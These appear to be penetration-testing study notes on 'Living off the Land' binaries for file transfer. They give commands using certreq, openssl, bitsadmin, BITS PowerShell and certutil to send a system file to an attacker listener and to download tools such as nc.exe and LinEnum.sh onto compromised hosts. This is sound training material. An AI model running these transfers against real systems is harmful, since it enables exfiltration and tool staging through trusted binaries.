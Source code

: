 Two websites that aggregate information on Living off the Land binaries:
- [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
- [GTFOBins for Linux Binaries]()

Living off the Land Binaries can perform the following actions:
- download
- upload
- command execution
- file read/write
- bypasses

**LOLBAS**
To search for download and upload functions in LOLBAS we can use /download or /upload

![[Pasted image 20230830034543.png]]

Example: using CertReq.exe to listen on a port on our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.

**Upload win.ini to our Pwnbox**
```
certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini
```
	NOTE: This will send the file to our Netcat listening session, and we can copy-paste its     contents

**File Received in our Netcat Session**
```
sudo nc -lvnp 80
```

**GTFOBins**
To search for the download and upload function in GTFOBins for Linux Binaries, we can use +file download or +file upload.

![[Pasted image 20230830035116.png]]

For this example, we'll use OpenSSL as it can be used to send files similarly to netcat/nc

**Create Certificate in our Pwnbox**
```
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

**Stand up the Server in our Pwnbox**
```
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

**Download File from the Compromised Machine**
```
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

### Other Common Living off the Land tools

**Bitsadmin Download function**
The Background Intelligent Transfer Service (BITS) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work

**File Download with Bitsadmin**
```
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

**Download**
```
Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

**Certutil**
Can be used to download files on Windows machines. 
```
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```

